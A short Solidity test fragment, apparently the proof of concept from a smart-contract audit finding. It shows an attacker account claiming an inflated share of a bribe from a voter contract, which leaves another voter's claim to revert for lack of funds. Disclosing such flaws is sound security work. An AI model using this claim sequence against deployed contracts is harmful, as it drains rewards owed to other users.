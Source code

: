```
    // beef votes with balance X
    hevm.prank(beef);
    voter.vote(tokenId2, pools, weights, 0);

    // ------------------- Start epoch i+2
    hevm.warp(newEpoch() + 1);
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

    // distribution is executed
    voter.distribute();

    hevm.startPrank(admin);
    // attacker claims an inflated share
    voter.claimBribes(bribes, tokens, tokenId1);
    hevm.stopPrank();

    // time goes forward
    hevm.warp(block.timestamp + 2);

    hevm.startPrank(beef);
    // beef tries to claim but his transaction reverts due to lack of funds
    voter.claimBribes(bribes, tokens, tokenId2);
    hevm.stopPrank();

}
```
